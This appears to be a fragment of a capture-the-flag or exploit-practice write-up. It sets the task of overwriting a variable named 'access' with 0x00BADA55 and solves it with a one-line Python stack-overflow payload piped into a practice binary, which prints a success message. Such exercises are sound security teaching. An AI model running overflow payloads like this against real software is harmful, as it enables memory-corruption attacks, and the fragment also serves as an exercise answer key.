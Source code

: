 Overwrite the variable `access` with the value `0x00BADA55`

```
$ python -c 'print "A"*16 + "\x55\xDA\xBA\x00"' | ./exploit 
What's your name?
Good job, you hacked me!
```
